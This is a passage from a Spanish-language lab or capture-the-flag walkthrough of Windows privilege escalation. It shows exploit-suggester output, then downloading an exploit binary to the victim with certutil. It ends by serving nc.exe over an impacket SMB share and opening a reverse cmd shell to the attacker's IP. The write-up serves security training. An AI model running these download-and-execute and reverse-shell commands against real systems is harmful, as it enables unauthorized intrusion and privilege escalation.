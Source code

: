```
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
 
```

He probado el primer exploit (`MS16-135`) pero no ha funcionado así que he probado el segundo exploit en la lista, nos descargamos el `.exe` de [https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) y nos montamos un `servidor` con `python` en nuestro equipo

```
# python -m http.server 80
```

Desde la máquina víctima nos `descargamos` el `binario`

```
PS C:\Windows\Temp\privesc> certutil.exe -urlcache -split -f http://10.10.16.16/41020.exe 41020.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.
```

He `probado` este `exploit` desde la `consola` que nos da el exploit anterior y `no funciona` correctamente, se queda `congelado` todo, por lo tanto voy a `mandarme` una `shell` con `netcat` a mi equipo, para ello nos creamos un `servidor smb` en el `mismo directorio` donde se está en `nc.exe`

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos ponemos en `escucha` por el `puerto 4444` en nuestra máquina

```
# nc -nlvp 4444
```

Desde la máquina víctima `ejecutamos` el `binario` y nos mandamos una `cmd` a nuestro equipo

```
PS C:\Users\kostas\Desktop> \\10.10.16.16\smbFolder\nc.exe -e cmd 10.10.16.16 4444
```
